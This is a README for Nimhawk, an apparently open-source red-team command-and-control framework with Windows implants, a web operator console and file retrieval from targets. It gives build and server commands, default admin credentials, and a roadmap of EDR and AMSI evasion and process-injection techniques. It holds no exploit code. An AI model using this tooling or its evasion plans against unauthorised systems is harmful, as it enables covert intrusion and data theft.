

<div align="center">
  

  <h1>Nimhawk - a powerful, modular, lightweight and efficient command & control framework.</h1>

[](http://makeapullrequest.com)
[](https://github.com/yourgithub/nimhawk)
[](LICENSE)
[](https://github.com/yourgithub/nimhawk/releases)
[](https://buymeacoffee.com/hdbreaker9s)
</div>

> **Development status**: Nimhawk is currently in active development. Core functionality is working, but some features are still experimental. The implant only supports Windows x64 platforms. Contributions and feedback are highly welcomed!

## Table of Contents
- [Introduction](#introduction)
- [Key features](#key-features)
- [Recent improvements](#recent-improvements)
- [Screenshots](#screenshots)
- [System requirements](#system-requirements)
- [Compatibility](#compatibility)
- [Development environment setup](#development-environment-setup)
- [Configuration](#configuration)
- [Basic usage](#basic-usage)
- [Future development](#future-development)
- [Notes and considerations](#notes-and-considerations)
- [FAQ](#faq)
- [Research and inspiration](#research-and-inspiration)
- [Development](#development)
- [Acknowledgments](#acknowledgments)
- [Community quote](#community-quote)
- [Disclaimer](#disclaimer)
- [Architecture](#architecture)
- [Available commands](#available-commands)
- [Quick start guide](#quick-start-guide)
- [C2 framework comparison](#c2-framework-comparison)
- [Command examples](#command-examples)
- [Docker support](#docker-support)
- [Workspace management system](#workspace-management-system)
- [File exchange system](#file-exchange-system)
- [Support the project](#support-the-project)

## Introduction

Nimhawk is an advanced command and control (C2) framework that builds upon the exceptional foundation laid by [Cas van Cooten](https://github.com/chvancooten) ([@chvancooten](https://twitter.com/chvancooten)) with his [NimPlant](https://github.com/chvancooten/NimPlant) project. Cas's innovative work in developing a lightweight, cross-platform implant written in Nim has been groundbreaking for the red team community.

This project would not exist without Cas's technical expertise, dedication to open source, and commitment to knowledge sharing. Nimhawk expands on NimPlant's original functionality with:

- A more modular architecture for easier contributions and extensions
- Enhancements to implant security and evasion capabilities
- A completely renovated graphical interface with modern authentication
- Improved data handling and command processing systems

We are profoundly grateful to Cas van Cooten for his generosity in open-sourcing NimPlant, his ongoing contributions to the security community, and his pioneering work in leveraging the Nim language for security tools. We also extend our thanks to all NimPlant contributors who have helped shape the codebase that serves as our foundation.

## Key features

- **Modular architecture**: Designed to facilitate collaborative development and expansion.
- **Enhanced implant**: Modifications to reduce detection by security solutions.
- **Advanced web interface**: Intuitive dashboard with authentication for implant management and data visualization.
- **Compilation from web interface**: Generate implants with different configurations directly from the dashboard.
- **Improved security**: Machine-to-machine authentication system and robust reconnection.
- **Optimized data storage**: Refined check-in system and data transfer calculation.
- **Improved debugging**: Enhanced logging and error handling for easier troubleshooting.
- **Multi-status implant support**: Visual tracking system with color-coded statuses (active, late, disconnected, inactive) for better operational awareness.

## Recent improvements

* **Enhanced check-in system**: Implemented optimized tracking for implant check-ins, separating them from command history for cleaner console output
* **Refined data transfer calculation**: More accurate measurement of data transferred between server and implants
* **UI improvements**: Enhanced implant details display with real-time metrics and more intuitive layout
* **Bug fixes**: Resolved critical issues with dependency imports and CORS header handling
* **Improved reconnection system**: Enhanced implant reconnection mechanism that properly handles Registry cleanup, removing previous implant ID before registering a new one to prevent orphaned entries
* **Inactive implant management**: Added ability to safely delete inactive implants from the database, maintaining a clean operational environment
* **Comprehensive Web UI**: Full-featured web interface for real-time monitoring and control of implants
* **Enhanced persistence options**: Multiple methods for maintaining access
* **Improved evasion techniques**: More sophisticated options to avoid detection
* **File system operations**: Expanded capabilities for file management
* **Multilingual command support**: Execute commands in PowerShell, cmd.exe, or native shell

## Screenshots

### Secure authentication
[](docs/images/login.png)
*The secure authentication system features a minimalist design with email/password authentication and session management for multiple operators.*

### Command & control interface
[](docs/images/dashboard.png)
*Nimhawk's modern dashboard featuring a clean design with the project logo and framework description. The intuitive UI provides quick access to all operational functions.*

### Comprehensive server information
[](docs/images/server.png)
*Server information panel with detailed metrics showing connection status, API endpoints, communication paths, and configuration details. The collapsible sections provide easy access to technical information.*

### Implant builder with real-time feedback
[](docs/images/builder_workspace.png)
*The implant builder interface allows operators to select target workspaces when generating new implants, supporting operational segmentation.*

[](docs/images/builder_process.png)
*Real-time compilation feedback shows the build process step-by-step, providing transparency and debugging information during implant generation.*

[](docs/images/builder_sucess.png)
*Upon successful compilation, operators receive a summary of generated files with direct download capability for deployment.*

### Multi-status implant management
[](docs/images/implants.png)
*The implants dashboard provides a comprehensive view of all beacons with status indicators, system information, and network details. The responsive design adapts to different screen sizes.*

[](docs/images/multi-status.png)
*Nimhawk's advanced status tracking system uses color-coding and icons to represent different implant states: Active (green), Late (orange), Disconnected (red), and Inactive (gray). This enhances situational awareness during operations.*

### Advanced search and filtering
[](docs/images/implant-search-bar.png)
*The intuitive search system allows operators to quickly locate specific implants by hostname, username, IP address, or other attributes with real-time filtering.*

[](docs/images/implant-filter.png)
*Advanced filtering capabilities enable operators to focus on specific implant states, improving management efficiency when handling large numbers of connections.*

### Interactive command console
[](docs/images/console.png)
*The interactive console provides command history, syntax highlighting, and adjustable display options. The streamlined interface shows only relevant command history with clear input/output separation.*

### Detailed implant information
[](docs/images/implant-info-process.png)
*Process information tab displaying detailed system data including process name, PID, username, and operating system version.*

[](docs/images/implant-info-network.png)
*Network tab showing comprehensive connectivity details including internal/external IP addresses and communication settings.*

[](docs/images/implant-info-download-dashboard.png)
*The downloads dashboard lists all files retrieved from the target system with metadata and download options.*

[](docs/images/implant-info-download-preview.png)
*Built-in file preview functionality allows operators to examine downloaded content directly in the browser with support for multiple file formats.*

[](docs/images/implant-console-upload.png)
*The file upload modal provides a streamlined interface for transferring files to the target system with optional destination path specification.*

[](docs/images/implant-info-history.png)
*Comprehensive activity log tracking all interactions with timestamps, command counts, and data transfer statistics.*

### File management system
[](docs/images/download.png)
*Global downloads view showing all retrieved files across all implants with sorting and filtering capabilities.*

[](docs/images/global-file-history.png)
*Complete file transfer history tracking all uploads and downloads across all operations with detailed metadata and timestamps.*

## System requirements

### Server
- Python 3.8 or higher
- Dependencies specified in `server/requirements.txt`
- Any modern OS (Linux, macOS, Windows)
- Minimum 2GB RAM and 1GB disk space

### Implant (Nim)
- **Target Platform**: Windows x64 only (Windows 7 SP1, Windows 8.1, Windows 10, Windows 11, Server 2012 R2+)
- Nim toolchain (installation recommended via `choosenim`)
- Required Nimble packages (automatically installed during build)
- On Linux/MacOS: `mingw-w64` toolchain for cross-compilation

## Compatibility

### Server component
| OS | Support Status | Notes |
|----|---------------|-------|
| Ubuntu 20.04+ | ✅ Fully Supported | Recommended for production |
| Debian 11+ | ✅ Fully Supported | Tested and working |
| Kali Linux | ✅ Fully Supported | Optimized for pentesting workflows |
| macOS 11+ | ✅ Fully Supported | Both Intel and Apple Silicon |
| Windows 10+ | ⚠️ Limited Support | May require additional configuration |

### Implant component
| OS | Architecture | Support Status | Notes |
|----|-------------|----------------|-------|
| Windows 7 SP1 | x64 | ✅ Working | Legacy OS support |
| Windows 8.1 | x64 | ✅ Working | Limited testing |
| Windows 10 | x64 | ✅ Fully Supported | Primary development target |
| Windows 11 | x64 | ✅ Fully Supported | Regularly tested |
| Windows Server 2012 R2+ | x64 | ✅ Working | Limited testing |
| macOS | Any | ❌ Not Supported | Planned for future releases |
| Linux | Any | ❌ Not Supported | Planned for future releases |
| Windows | x86/32-bit | ❌ Not Supported | No plans to support |

### Compiler compatibility
| Compiler | Host OS | Target | Status |
|----------|---------|--------|--------|
| Nim + MinGW | Linux | Windows x64 | ✅ Fully Supported |
| Nim + MinGW | macOS | Windows x64 | ✅ Fully Supported |
| Nim | Windows | Windows x64 | ✅ Fully Supported |

Note: The implant is currently developed and tested exclusively for 64-bit Windows environments. Support for other platforms is on the roadmap but not currently available.

## Development environment setup

### Python environment

Nimhawk's server component uses Python virtual environments to manage dependencies. Follow these steps to set up the Python environment:

1. **Create a virtual environment**:
   ```bash
   # Navigate to the server directory
   cd server/
   
   # Create a virtual environment
   python3 -m venv venv
   
   # Activate the virtual environment
   # On Linux/macOS:
   source venv/bin/activate
   # On Windows:
   venv\Scripts\activate
   ```

2. **Install dependencies**:
   ```bash
   # Install all required packages
   pip install -r requirements.txt
   ```

3. **Using the environment**:
   - Always activate the virtual environment before running the server
   - The environment isolates dependencies to avoid conflicts with system packages
   - If you add new dependencies, update requirements.txt with `pip freeze > requirements.txt`

### Cross-compiling with nim.cfg

For building Windows payloads from Linux or macOS, Nimhawk uses cross-compilation configured through `nim.cfg`:

1. **Install MinGW toolchain**:
   ```bash
   # On macOS
   brew install mingw-w64
   
   # On Linux (Debian/Ubuntu)
   apt-get install mingw-w64
   ```

2. **nim.cfg configuration**:
   The nim.cfg file contains platform-specific settings for cross-compilation. Key components include:
   ```
   # Set target OS to Windows
   os = windows
   
   # 32-bit Windows compilation settings
   i386.windows.gcc.path = "/path/to/mingw/bin"
   i386.windows.gcc.exe = "i686-w64-mingw32-gcc"
   i386.windows.gcc.linkerexe = "i686-w64-mingw32-gcc"
   
   # 64-bit Windows compilation settings
   amd64.windows.gcc.path = "/path/to/mingw/bin"
   amd64.windows.gcc.exe = "x86_64-w64-mingw32-gcc"
   amd64.windows.gcc.linkerexe = "x86_64-w64-mingw32-gcc"
   
   # Assembly and linker options
   --passC:"-masm=intel"
   --passL:"-Wl,--image-base" 
   --passL:"-Wl,0x400000"
   ```

3. **Troubleshooting cross-compilation**:
   - If you encounter errors, verify the paths to your MinGW toolchain
   - On macOS, you may need to update paths in nim.cfg based on your Homebrew installation
   - Use `which x86_64-w64-mingw32-gcc` to locate the correct path to MinGW toolchain binaries

The cross-compilation setup allows you to develop and build Windows implants from non-Windows systems, which is particularly useful for red team operations conducted from Linux or macOS environments.

## New structure and improvements

Nimhawk introduces important structural changes compared to NimPlant:

1. **Directory reorganization**:
   - Clear separation between server (`server`) and web interface (`admin_web_ui`)
   - Modules organized by functionality
   - Scalable structure to facilitate development

2. **Agent improvements**:
   - Reconnection system with exponential backoff
   - Secure encryption key transfer
   - Mutex to prevent multiple executions
   - Enhanced registry management with proper cleanup during reconnection
   - Robust error handling for network disconnection scenarios

3. **Modern web interface**:
   - Login authentication
   - Responsive and improved design
   - Web panel for implant compilation
   - Real-time visualization of information and results
   - Enhanced implant details with relevant metrics

4. **Advanced security**:
   - Dual authentication system:
     - Web UI/API authentication with user accounts and session management
     - Implant-server authentication using custom HTTP headers (`X-Correlation-ID`) and communication keys
   - Encryption of all communications
   - Compression for large data transfers (files, screenshots, assemblies)
   - Validation mechanisms to prevent unauthorized connections

5. **Database optimizations**:
   - Improved schema for check-in tracking
   - More efficient data storage and retrieval
   - Better separation of command history and system events

## Configuration

Before using Nimhawk, you must configure the `config.toml` file. It is recommended to copy the `config.toml.example` file as a starting point.

| Category | Configuration      | Description                                                                              |
|-----------|-------------------|------------------------------------------------------------------------------------------|
| admin_api    | ip                | IP where the Admin API server will listen (Web UI API included)                        |
| admin_api    | port              | Port for the Admin API server                                                          |
| implants_server  | type              | Listener type: HTTP or HTTPS                                                        |
| implants_server  | sslCertPath       | Path to SSL certificate (required for HTTPS)                                        |
| implants_server  | sslKeyPath        | Path to SSL key (required for HTTPS)                                                |
| implants_server  | hostname          | Optional hostname for implant connections                                           |
| implants_server  | port              | Listener port for implant connections                                               |
| implants_server  | registerPath      | URI path for initial implant registration                                           |
| implants_server  | taskPath          | URI path for implant task retrieval                                                 |
| implants_server  | resultPath        | URI path for implant result posting                                                 |
| implants_server  | reconnectPath     | URI path for implant reconnection                                                  |
| implant   | listenerIp        | Public IP address for implants to connect back to                                      |
| implant   | riskyMode         | Compile with advanced but potentially detectable commands                                |
| implant   | sleepMask         | Use sleep masking techniques (only for exe, not DLL or shellcode)                       |
| implant   | sleepTime         | Default sleep time in seconds between check-ins                                          |
| implant   | sleepJitter       | Jitter percentage to randomize sleep times                                               |
| implant   | killDate          | Date when implants will self-terminate (format: yyyy-MM-dd)                              |
| implant   | userAgent         | Custom User-Agent string used by implants for HTTP requests                              |
| implant   | httpAllowCommunicationKey | Secret token for machine-to-machine authentication between implant and server    |
| auth      | enabled           | Enable authentication for web interface and API                                          |
| auth      | session_duration  | Session duration in hours for authenticated users                                        |
| auth.users| email             | User email for login authentication                                                      |
| auth.users| password          | User password for login authentication                                                   |
| auth.users| admin             | Whether user has admin privileges (true/false)                                           |

### Authentication system

Nimhawk includes a complete authentication system with the following features:

- **Web UI authentication**: Username/password login for access to the admin interface
- **Session management**: Configurable session duration with automatic expiration
- **Multi-user support**: Configure multiple users with different permission levels
- **API authentication**: Session-based authentication for all API endpoints
- **Implant authentication**: Separate machine-to-machine authentication for implants using `httpAllowCommunicationKey`

By default, a user account is created with the credentials:
- Email: `admin@nimhawk.com`
- Password: `P4ssw0rd123$`

It is strongly recommended to change these default credentials in your production environment.

## Basic usage

### Implant compilation

The web panel facilitates the generation of implants with different configurations:

1. Access the "Server" section in the web interface
2. Use the "Compile Implants" button to open the panel
3. Configure options as needed (debug/release)
4. Click "Build" to generate the implant

Alternatively, you can use the `nimhawk.py` script:

```bash
python3 nimhawk.py compile [exe|dll|raw|all] nim-debug
```

### Starting the server

To start the Nimhawk server:

```bash
python3 nimhawk.py server

or

cd server/
python3 main.py Nimhawk
```

This will start both the Implant API server and the Admin API server on the configured ports.

## Future development

The Nimhawk team is actively working on:

IMPORTANT: Non of them are in place right now so all helps in any of this topics will be great!

## Development roadmap

<div align="center">

| Feature | Description | Status | Priority |
|---------|-------------|:------:|:--------:|
| **Core Features** | | | |
| Modular Architecture | Architecture separated by modules for easier contribution | `DONE` | High |
| Web Interface | Modern React-based UI with authentication | `DONE` | High |
| Implant Compilation | Web-based compilation with various output formats | `DONE` | High |
| Multi-status Implants | Visual tracking with different status indicators | `DONE` | High |
| File Exchange System | Secure bidirectional file transfers with preview | `DONE` | High |
| **Evasion Techniques** | | | |
| Sleep Masking (Ekko) | Implemented by @chvancooten for stealthier operations | `DONE` | High |
| NTDLL Unhooking | Bypass EDR hooks on NTDLL functions | `WIP` | High |
| AMSI/ETW Bypass | Disable or circumvent security monitoring | `WIP` | High |
| Memory Encryption | Protection of implant in memory while dormant | `Waiting for Development` | Medium |
| Anti-Sandbox | Techniques to detect and avoid analysis environments | `Waiting for Development` | Low |
| **Payload Delivery** | | | |
| DLL Injection | Basic DLL injection capabilities | `Waiting for Development` | Medium |
| Shellcode Injection | VirtualAlloc + CreateRemoteThread techniques | `Waiting for Development` | Medium |
| Process Hollowing | Advanced process replacement techniques | `Waiting for Development` | Medium |
| APC Injection | Asynchronous Procedure Call injection methods | `Waiting for Development` | Low |
| **Platform Support** | | | |
| Windows x64 Support | Windows 7+ x64 architecture support | `DONE` | High |
| Linux Implant | Linux-compatible version of implant | `Waiting for Development` | Medium |
| macOS Implant | macOS-compatible version of implant | `Waiting for Development` | Medium |
| **Infrastructure** | | | |
| HTTP/HTTPS Comms | Basic HTTP/HTTPS communication | `DONE` | High |
| DNS Tunneling | Data exfiltration over DNS | `Waiting for Development` | Low |
| Domain Fronting | Proxy communications through trusted domains | `Waiting for Development` | Low |
| **Tooling & Analysis** | | | |
| Stealthiness Analysis | YARA rule generation and signature detection | `Waiting for Development` | Medium |
| PE-Sieve Integration | In-memory analysis of implant | `Waiting for Development` | Low |
| ThreatCheck Functionality | Pinpoint specific detection triggers | `Waiting for Development` | Medium |
| **Usability** | | | |
| Advanced Workspace UI | Dedicated UI section for workspace management | `Waiting for Development` | Low |
| Advanced Persistence | Built-in persistence mechanisms | `Waiting for Development` | Medium |
| Implant Update Mechanism | Update implants without redeployment | `Waiting for Development` | Medium |

</div>

- **Advanced Evasion Techniques**:
   - NTDLL Unhook
   - AMSI and ETW patching/bypassing mechanisms (I need to improve this)   
   - Sleep obfuscation techniques - Ekko is on place by @chvancooten
   - Memory payload protection (encryption at rest)

- **Stealthiness Analysis Tools**:
   - The `detection` folder currently contains Nimplant detection rules, not Nimhawk-specific ones.
   - Future development will transform this directory into a comprehensive toolkit with:
     - PE-sieve integration for in-memory analysis
     - ThreatCheck-style functionality for pinpointing detection signatures
     - Automated YARA rule generation and testing
   - These tools will make it easier to analyze and improve the stealthiness of implants

- **Payload Delivery Mechanisms**:
   - In the future we will include different loaders in the building process for the following techniques:
       - Classic DLL Injection
       - Remote Shellcode Injection
         - VirtualAllocEx, WriteProcessMemory, CreateRemoteThread
         - NtCreateThreadEx for more stealth operations
         - Section mapping techniques
       - Process Hollowing with advanced unmapping techniques
       - Thread Hijacking with context manipulation
       - APC Injection (standard and early bird variants)
       - Early Bird Injection with queue exploitation
       - Local NTDLL Unhooking with PE header parsing
       - Remote NTDLL Unhooking for cross-process hook removal
       - Waiting Thread Hijacking with suspending mechanisms
       - Module Stomping and PE section manipulation
       - COM Hijacking techniques

- **Defense Evasion**:
   - Anti-sandbox detection techniques
   - Anti-analysis countermeasures
   - Stack spoofing for hiding call stacks

## Research and inspiration

Nimhawk draws inspiration from various offensive security projects and research:

- Cobalt Strike's Beacon architecture for C2 communications
- Outflank's excellent research on in-memory execution
- MDSec's creative approaches to defense evasion
- Sektor7's comprehensive training materials
- Process Injection research by The DFIR Report, Elastic, and Huntress
- Modern offensive tooling like Sliver, Havoc, and Brute Ratel

The project aims to incorporate best practices from these sources while contributing new techniques and approaches to the field.

## Notes and considerations

- Nimhawk implants use custom headers for authentication:
  - `X-Request-ID`: Carries the implant's UUID
  - `Content-MD5`: Carries task ID for job executions
  - `X-Correlation-ID`: Carries the HTTP communication key
  - `X-Robots-Tag`: Carries the Workspace UUID for workspace association

- Nimhawk is an actively developing project; it is recommended to review the technical documentation for implementations in sensitive environments.

## Development

For detailed information about the project structure, development setup, and contribution guidelines, please refer to our [DEVELOPERS.md](DEVELOPERS.md) guide.

This guide includes:
- Development environment setup
- Project architecture overview
- Pull request guidelines
- Build and deployment instructions
- Detailed documentation of recent improvements

We welcome contributions from the community! Before starting, please review our development documentation to ensure a smooth collaboration process.

Please note: Nimhawk is currently under active development. While we strive for stability, you may encounter issues. We encourage you to report (and fix) any bugs by creating a Pull Request and joining our development community.

## Acknowledgments

Special thanks to [Cas van Cooten](https://github.com/chvancooten) for creating NimPlant, the project that served as the fundamental basis for Nimhawk. And to all the contributors who have contributed to the development of both projects. You can find him on Twitter [@chvancooten](https://twitter.com/chvancooten).

We would also like to express our gratitude to:

- [MalDev Academy](https://maldevacademy.com/) for their exceptional educational resources on malware development techniques that have been instrumental in improving our implant capabilities and evasion methods.

- [VX-Underground](https://vx-underground.org/) for maintaining the largest collection of malware source code, samples, and research papers, which have been invaluable for understanding advanced techniques and state-of-the-art implementations.

Their work has been foundational to many of the concepts and techniques implemented in this project.

## Community quote
 
What impresses me most about Nimhawk is how it balances:

**Usability**: The intuitive interface and workspace system make it accessible even for larger teams.

**Technical capabilities**: The advanced features like secure file exchange and integrated preview demonstrate attention to detail. 

**Documentation**: The level of documentation for both users and developers is exceptional, something rare in open-source projects in this space.
 
In summary, Nimhawk represents a significant advancement in open-source C2 tools, combining advanced features with a modern user experience. Its focus on modularity and extensibility positions it as a solid foundation for future innovations in this field.

## Disclaimer

Nimhawk is designed for and intended to be used by:
- Information Security Professionals
- Red Team Operators
- Security Researchers
- Defensive Security Specialists
- Maldev Students

The primary purpose of this framework is to facilitate technical research into malware development and operations, enabling the improvement of defensive strategies and detection mechanisms.

### Legal notice

This tool should only be used in strictly controlled environments with proper authorization. The authors and contributors of Nimhawk assume no liability and are not responsible for any misuse or damage caused by this program. Users are responsible for ensuring compliance with local, state, and federal laws and regulations.

By using Nimhawk, you agree that:
1. You will only use it for legal purposes
2. You have proper authorization for testing
3. You will not use it for unauthorized access or exploitation
4. You understand the risks and consequences of misuse

## Compatibility

Nimhawk only works on Windows x64.

## FAQ

### General questions

#### What is Nimhawk?
Nimhawk is a Command & Control (C2) framework designed for red team operations, featuring a Python backend server and implants written in the Nim programming language.

#### How is Nimhawk different from other C2 frameworks?
Nimhawk prioritizes modularity, lightweight operation, and modern UI, while leveraging Nim's cross-compilation capabilities and evasion potential. Unlike some frameworks, it focuses on simplicity and usability without sacrificing advanced features.

#### Is Nimhawk free to use?
Yes, Nimhawk is open-source and free to use under the terms specified in the license. However, it's designed for legitimate security testing with proper authorization.

### Technical questions

#### What platforms does the implant support?
Currently, Nimhawk implants only work on Windows x64 environments (Windows 7 SP1 and newer). There are no plans to support 32-bit Windows, though macOS and Linux support may be added in the future.

#### Can I compile implants on my Mac/Linux machine?
Yes, you can cross-compile Windows implants from Linux or macOS using the MinGW toolchain. The `nim.cfg` file contains the necessary configuration for cross-compilation.

#### Does Nimhawk support HTTPS communications?
Yes, Nimhawk supports both HTTP and HTTPS communications. For HTTPS, you'll need to configure SSL certificates in the `config.toml` file.

#### How do I customize the C2 communication paths?
You can customize all communication paths (register, task, result, reconnect) in the `config.toml` file under the `[implants_server]` section.

#### How does the authentication system work?
Nimhawk has a dual authentication system:
1. Web UI authentication using username/password for operators
2. Implant-server authentication using a pre-shared key (httpAllowCommunicationKey) and custom HTTP headers

### Operational questions

#### How do I create and deploy an implant?
1. Configure your `config.toml` file
2. Use the web interface "Compile Implants" button or run `python3 nimhawk.py compile [exe|dll|raw|all] nim-debug` 
3. Deploy the generated implant on your target system

#### What are the implant's persistence capabilities?
Currently, persistence must be manually implemented using standard Windows persistence techniques (Registry, Scheduled Tasks, Services). The implant itself does not have built-in persistence mechanisms.

#### How do I update an existing implant?
Nimhawk doesn't currently support in-memory updating of implants. You would need to deploy a new implant with updated configurations.

#### How can I contribute to Nimhawk?
Contributions are welcome! Check the Development section and the DEVELOPERS.md file for guidelines on contributing to the project.

### Troubleshooting

#### My implant isn't connecting to the C2 server. What should I check?
1. Verify network connectivity between implant and server
2. Check firewall rules on both ends
3. Ensure the httpAllowCommunicationKey matches in config.toml
4. Verify the listener IP and port are correctly configured
5. Check if your antivirus is blocking the implant

#### I'm getting CORS errors when accessing the web interface. How do I fix them?
CORS errors typically occur when accessing the admin interface from a different origin than where it's hosted. Ensure you're accessing the interface directly from the server's URL without proxy redirection.

#### How do I debug compilation issues?
For compilation issues, check the Nim compiler output for errors. Ensure your MinGW paths are correctly configured in nim.cfg if cross-compiling from Linux/macOS.

## Troubleshooting

### Installation Issues

#### MinGW Configuration Problems
**Problem**: Error when compiling implant with messages about missing mingw compiler.

**Solution**: 
1. Install MinGW using your package manager: `brew install mingw-w64` (macOS) or `apt install mingw-w64` (Debian/Ubuntu)
2. Locate the installed compiler: `which x86_64-w64-mingw32-gcc`
3. Update the paths in your nim.cfg file to match the installation location

#### Python Dependencies Issues
**Problem**: ImportError or ModuleNotFoundError when starting the server.

**Solution**:
1. Ensure you're using a virtual environment: `python -m venv venv && source venv/bin/activate`
2. Install dependencies: `pip install -r requirements.txt`
3. If specific packages fail, try installing them individually: `pip install flask gevent flask-cors`

### Runtime Issues

#### Implant Connection Problems
**Problem**: Implant compiled successfully but doesn't connect to the C2 server.

**Solution**:
1. Check network connectivity (firewall rules, network restrictions)
2. Verify the listener IP/port in config.toml matches your server's actual IP
3. Ensure httpAllowCommunicationKey matches between server and implant
4. Try running with HTTP instead of HTTPS to eliminate certificate issues
5. Check the implant with Process Monitor to see if it's executing properly

#### Web Interface Access Issues
**Problem**: Cannot access the web interface or receive authentication errors.

**Solution**:
1. Verify the server is running (`ps aux | grep python`)
2. Check the server's IP binding (set to 0.0.0.0 to allow external connections)
3. Test local access first (http://127.0.0.1:PORT)
4. Check browser console for CORS or JavaScript errors
5. Reset your authentication by manually clearing browser cookies

#### Database Issues
**Problem**: Server starts but operations fail with database errors.

**Solution**:
1. Check if the SQLite database file exists and has proper permissions
2. If corrupted, backup and rename/remove the database file to let the server create a new one
3. Verify you have write permissions in the directory

### Common error messages

#### "Error: SSL certificate required for HTTPS listener"
Configure SSL certificates in config.toml under the listener section:
```toml
[implants_server]
type = "HTTPS"
sslCertPath = "/path/to/cert.pem"
sslKeyPath = "/path/to/key.pem"
```

#### "Error: No implants connected"
This is normal if you haven't deployed any implants yet. Build and deploy an implant to see it appear in the web interface.

#### "Error: Permission denied when writing to directory"
Run the server with appropriate permissions or change the ownership of the directory.

## Troubleshooting

### Installation Issues

#### MinGW Configuration Problems
**Problem**: Error when compiling implant with messages about missing mingw compiler.

**Solution**: 
1. Install MinGW using your package manager: `brew install mingw-w64` (macOS) or `apt install mingw-w64` (Debian/Ubuntu)
2. Locate the installed compiler: `which x86_64-w64-mingw32-gcc`
3. Update the paths in your nim.cfg file to match the installation location

#### Python Dependencies Issues
**Problem**: ImportError or ModuleNotFoundError when starting the server.

**Solution**:
1. Ensure you're using a virtual environment: `python -m venv venv && source venv/bin/activate`
2. Install dependencies: `pip install -r requirements.txt`
3. If specific packages fail, try installing them individually: `pip install flask gevent flask-cors`

### Runtime issues

#### Implant Connection Problems
**Problem**: Implant compiled successfully but doesn't connect to the C2 server.

**Solution**:
1. Check network connectivity (firewall rules, network restrictions)
2. Verify the listener IP/port in config.toml matches your server's actual IP
3. Ensure httpAllowCommunicationKey matches between server and implant
4. Try running with HTTP instead of HTTPS to eliminate certificate issues
5. Check the implant with Process Monitor to see if it's executing properly

#### Web Interface Access Issues
**Problem**: Cannot access the web interface or receive authentication errors.

**Solution**:
1. Verify the server is running (`ps aux | grep python`)
2. Check the server's IP binding (set to 0.0.0.0 to allow external connections)
3. Test local access first (http://127.0.0.1:PORT)
4. Check browser console for CORS or JavaScript errors
5. Reset your authentication by manually clearing browser cookies

#### Database Issues
**Problem**: Server starts but operations fail with database errors.

**Solution**:
1. Check if the SQLite database file exists and has proper permissions
2. If corrupted, backup and rename/remove the database file to let the server create a new one
3. Verify you have write permissions in the directory

### Common error messages

#### "Error: SSL certificate required for HTTPS listener"
Configure SSL certificates in config.toml under the listener section:
```toml
[implants_server]
type = "HTTPS"
sslCertPath = "/path/to/cert.pem"
sslKeyPath = "/path/to/key.pem"
```

#### "Error: No implants connected"
This is normal if you haven't deployed any implants yet. Build and deploy an implant to see it appear in the web interface.

#### "Error: Permission denied when writing to directory"
Run the server with appropriate permissions or change the ownership of the directory.

## Architecture

```
┌────────────────────────────────────────┐              ┌───────────────────┐
│                                        │              │                   │
│  OPERATOR MACHINE                      │              │  TARGET MACHINE   │
│                                        │              │                   │
│  ┌───────────┐                         │              │  ┌───────────┐    │
│  │ Web UI    │                         │              │  │  Nimhawk  │    │
│  │ (React)   │                         │              │  │  Implant  │    │
│  └───────────┘                         │              │  └─────┬─────┘    │
│      │                                 │              │        │          │
│      │  HTTPS REST API                 │              │        │          │
│      │                                 │              │        │          │
│      │                                 │              │        │          │
│  ┌───│─ ──────────────────────┐        │              │        │          │
│  │   │  PYTHON BACKEND        │        │              │        │          │
│  │  ┌▼─────────────────┐      │        │              │        │          │
│  │  │ Admin API Server │      │        │              │        │          │
│  │  └──────────────────┘      │        │              │        │          │
│  │                            │        │              │        │          │
│  │  ┌──────────────────┐      │        │              │        │          │
│  │  │ Implants Server  │◄─────┼────────┼──────────────┼────────┘          │
│  │  └──────────────────┘      │        │              │   HTTP/HTTPS      │
│  └───────────┬────────────────┘        │              │                   │
│              │                         │              │                   │
│              ▼                         │              │                   │
│  ┌───────────────────┐                 │              │                   │
│  │    nimhawk.db     │                 │              │                   │
│  │    (SQLite)       │                 │              │                   │
│  └───────────────────┘                 │              │                   │
│                                        │              │                   │
└────────────────────────────────────────┘              └───────────────────┘
```

Nimhawk implements a client-server architecture with strictly separated communication paths:

1. **Implant**: Deployed on target systems, communicates exclusively with the Implants Server using customizable HTTP(S) paths. Written in Nim to provide a small footprint and evasion capabilities.

2. **Python Backend**: Contains two independent servers with distinct responsibilities:
   - **Admin API Server**: Provides the REST API for the administration web interface, with its own authentication layer. Communicates bidirectionally with the Web UI via HTTPS REST calls. Never communicates directly with implants. Can be configured as API-only mode.
   - **Implants Server**: Exclusively handles communication with implants, receiving and processing their check-ins and results. No direct communication with the Web UI.

3. **Admin Web UI**: Web interface for operators, built with React/Next.js. Communicates bidirectionally with the Admin API Server through REST calls over HTTPS. Has no direct communication with implants.

4. **Database (nimhawk.db)**: SQLite database that stores all information about implants, users, command history, and downloaded files. Both servers (Implants and Admin) read from and write to this database, which serves as the data coordination point between components.

Authentication is implemented at two independent levels:

- **Web UI/API Authentication**: Based on usernames and passwords, with session management for access to the administration interface.
- **Implant/Server Authentication**: Using a pre-shared key (`httpAllowCommunicationKey`) and custom HTTP headers (`X-Correlation-ID`).

## Real-World use case scenario

Below is a walkthrough of a typical penetration testing scenario using Nimhawk:

### Initial Access Phase

